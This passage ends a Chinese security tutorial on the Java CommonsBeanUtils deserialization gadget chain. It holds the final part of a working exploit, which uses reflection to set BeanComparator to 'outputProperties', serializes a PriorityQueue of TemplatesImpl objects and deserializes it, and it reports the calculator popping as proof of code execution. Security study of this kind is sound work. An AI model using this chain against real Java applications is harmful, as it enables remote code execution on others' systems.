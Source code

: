 ```
  
 // 将 property 的值赋为 outputProperties 
 setFieldValue(beanComparator, "property", "outputProperties");  
 setFieldValue(queue, "queue", new Object[]{templates, templates});  
 serialize(queue);  
 unserialize("ser.bin");  
 }  
  
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{  
        Field field = obj.getClass().getDeclaredField(fieldName);  
 field.setAccessible(true);  
 field.set(obj, value);  
 }  
  
    public static void serialize(Object obj) throws IOException {  
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));  
 oos.writeObject(obj);  
 }  
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException{  
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));  
 Object obj = ois.readObject();  
 return obj;  
 }  
}
```

成功弹出计算器

![img](https://drun1baby.top/2022/07/12/CommonsBeanUtils%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/FinalEXP.png)

## 0x06 小结

这条链子比较简单，我的建议是自己可以完完全全地手写一遍 EXP